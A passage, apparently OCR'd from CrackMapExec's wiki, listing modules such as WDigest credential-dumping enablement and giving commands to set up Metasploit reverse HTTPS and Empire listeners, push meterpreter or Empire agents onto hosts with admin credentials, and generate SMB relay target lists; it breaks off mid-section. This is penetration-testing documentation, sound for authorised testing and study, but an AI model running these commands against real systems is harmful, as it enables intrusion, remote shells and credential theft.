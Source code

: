 [*] wdigest                   Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
[*] web_delivery              Kicks off a Metasploit Payload using the exploit/multi/script/web_delivery module

Getting shells
Metasploit

# First, set up a HTTP Reverse Handler
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST 192.168.10.3
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j

# Met_Inject module
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=YOURIP LPORT=4444 

Empire

# Start RESTful API
empire --rest --user empireadmin --pass gH25Iv1K68@^

# First setup an Empire HTTP listener
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

# Start RESTful API
# The username and password that CME uses to authenticate to Empire's RESTful API 
# Are stored in the cme.conf file located at ~/.cme/cme.conf
empire --rest --user empireadmin --pass gH25Iv1K68@^

# Empire Module
crackmapexec smb 192.168.215.104 -u Administrator -p PASSWORD --local-auth -M empire_exec -o LISTENER=CMETest
```
## Generate Relay List

[](https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference#generate-relay-list)

Maps the network of live hosts and saves a list of only the hosts that dont require SMB signing.  
List format is one IP per line

```
#~ cme smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
```

Expected Results:
```